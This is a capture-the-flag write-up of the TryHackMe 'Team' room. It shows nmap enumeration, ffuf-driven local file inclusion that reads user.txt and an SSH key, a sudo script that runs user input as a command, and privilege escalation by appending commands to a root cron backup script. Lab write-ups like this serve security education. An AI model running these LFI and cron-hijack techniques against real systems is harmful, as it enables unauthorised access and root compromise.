

<div align="center">


<br/><br/>

# 🏴 Team — TryHackMe Writeup

[](https://tryhackme.com/room/teamcw)
[](https://tryhackme.com/room/teamcw)
[](https://tryhackme.com/room/teamcw)
[](https://tryhackme.com/room/teamcw)

<br/>


</div>

---

## 🔍 Initial Enumeration

So after getting the IP, I first opened it in the browser — it serves as the default homepage of the Apache server.


The Nmap result was:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-24 23:54 +0530
Nmap scan report for 10.49.150.162
Host is up (0.066s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:a9:f4:97:6b:f2:96:9a:ef:e9:74:4f:49:f0:99:34 (RSA)
|   256 7d:c1:57:5f:d4:c1:41:68:c5:b0:a6:bb:e7:cf:35:81 (ECDSA)
|_  256 6a:5d:ac:0f:47:4b:7d:c4:ad:d1:af:7c:70:dc:13:ad (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|phone|storage-misc
Running (JUST GUESSING): Linux 4.X|5.X|3.X (91%), Crestron 2-Series (86%), Google Android 10.X|11.X|12.X (85%), HP embedded (85%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:crestron:2_series cpe:/o:linux:linux_kernel:3 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/h:hp:p2000_g3
Aggressive OS guesses: Linux 4.15 - 5.19 (91%), Linux 4.15 (90%), Linux 5.4 (90%), Crestron XPanel control system (86%), Linux 3.8 - 3.16 (86%), Android 10 - 12 (Linux 4.14 - 4.19) (85%), HP P2000 G3 NAS device (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   66.16 ms 192.168.128.1
2   ...
3   72.30 ms 10.49.150.162

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.81 seconds

```

Meaning we can do something with vsftpd 3.0.5 — that is **CVE-2025-14242**.

But we can't do anything with it as it is for DDoS only.

The important section in the source code I found was:

```html
<title>Apache2 Ubuntu Default Page: It works! If you see this add 'team.thm' to your hosts!</title>
```

After doing so, it opens up a completely different page.

Meaning the page is using **virtual hosting**. 🖥️


The `robots.txt` also exists there and it includes one name — *dale*.

When doing directory brute-forcing, it gave us only those pages that were already inside the source code.

---

## 🚩 Q1 — What does user.txt contain?

But as it is said in the hint of Question 1:

```
As the "dev" site is under construction maybe it has some flaws? "url?=" + "This rooms picture"
```

So first I added `dev.team.thm` into the `/etc/hosts` file.

Then accessed the dev page.


Now there is a link — when clicked, it gave us an irrelevant page but the URL was not irrelevant:

```
http://dev.team.thm/script.php?page=teamshare.php
```


Here we can try **parameter tampering**. 🎯

So we tried LFI payloads with `ffuf` using the command:

```
ffuf -w /home/Seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt   -H "Host: dev.team.thm" -u http://dev.team.thm/script.php?page=FUZZ -ac
```

It worked and gave a lot of endpoints.

But one endpoint confirmed that there is a user named *dale*.

So I put `page=/home/dale/user.txt` and it spat out the first flag — which was what is inside `user.txt`. 🏁

> 💡 **Tip:** Whenever you see a `?page=` or `?file=` parameter, always try LFI payloads — there is a good chance the developer forgot to sanitise the input.

Now inside the LFI payloads, one of them was `/etc/ssh/sshd_config`.

An SSH key was there. From there I grabbed the key, removed any extra spaces and the hash, then gave the key permissions of 600.

And I was able to login as dale using the command:

```ssh
ssh -i key dale@ip
```

But going to the `/root` folder shows that I need to do **privilege escalation**. 🔐

---

## 🏆 Q2 — What does root.txt contain?

So first I am gonna find the commands I can run as sudo using **`sudo -l`**.



We can run `/home/gyles/admin_checks` with sudo as gyles from our current user — without a password. 👀

The content of it was:

```bash
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

And the content of `/home/ftpuser/workshare/New_site.txt` was:

```text
Dale
        I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevant config file.

Gyles 
```

Now it is confirmed that `dev.team.thm` was made by gyles.

When entering `/home/dale`, we saw this line:

```
sudo -u gyles /home/gyles/admin_checks
```

The `-u` flag tells sudo which user you want to run the command as.

Now look at the code of `admin_checks` — in that code:

```
$error 2>/dev/null
```

👉 A variable is being executed like a command.

Now whenever it prompts us, we can execute a command. Since we can execute a command, we will try to **spawn a shell** here. 🐚

When we enter **`bash`** as the value of the variable `date`, we will be able to login as user gyles.

As I looked at the `bash_history` of gyles, it told me that something was done in a folder called `admin_stuff`.

But I was not able to find that folder inside `/home/gyles/`.

So I searched within the whole filesystem and found it at `/opt/admin_stuff`. 🔎

Now, as per the history file, user gyles did the following:

```
sudo chmod gu+s php
./php
sudo ./php
```

This should immediately trigger a thought:

> "Why was gyles messing with a file called `php` and setting special permissions on it?"

But in reality, there exists another file `script.sh` whose content was:

```bash
#!/bin/bash
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
```

But there was something interesting with the folder `admin_stuff`:

```bash
drwxrwx---  2 root admin 4.0K Jan 17  2021 admin_stuff
```

```
👉 Meaning:

Owner: root
Group: admin
Writable by: group admin
```

Now we have a shell as gyles. 🎉

When I ran `id`:

I saw gyles is a part of the group `admin`.

Meaning, as user gyles, we could edit the file `script.sh`.

And if we read the file carefully — **this is running every 1 minute as root** — meaning we can run any command as root if we can edit that file.

```bash
cat /root/root.txt
```

If we could edit the file `script.sh`... But wait —

👉 Being in the group is not enough by itself. You also need **write permission on the file**, not just the directory.

Now if we look inside `script.sh`, it is also executing 2 other files as root. Let us see whether we can control those 2 files:

```text
/usr/local/sbin/dev_backup.sh
/usr/local/bin/main_backup.sh
```

Checking the permissions of `main_backup.sh` gave us:

```
-rwxrwxr-x 1 root admin 84 Apr 25 17:07 /usr/local/bin/main_backup.sh
```

Meaning I am part of group `admin` as gyles, so I could edit the file `main_backup.sh`. So I added this line to the file:

```bash
echo "id > /tmp/proof.txt" >> /usr/local/bin/main_backup.sh
```

Now at the bottom of the file `main_backup.sh`, the command `id > /tmp/proof.txt` is attached.

Meaning if `script.sh` is actually in a cron job and running as root every minute, then the `id` command will be run as root one minute after adding the line.

After a minute, when I checked `/tmp/proof.txt`:

```bash
uid=0(root) gid=0(root) groups=0(root),108(lxd),1004(admin)
```

Meaning it is definitely running as root. ✅

Now I put:

```bash
echo "cat /root/root.txt > /tmp/proof.txt" >> /usr/local/bin/main_backup.sh
```

And since the cron job is running every minute, when I checked the file after one minute, I got the content of `root.txt`. 🏁

And that is how `root.txt` gets solved!

---

<div align="center">


### *Room Pwned! 🎉 Keep hacking — ethically and relentlessly.* 🖥️🔐

<br/>

[](https://tryhackme.com/p/LinuxX)
[](https://github.com/212-del)

</div>
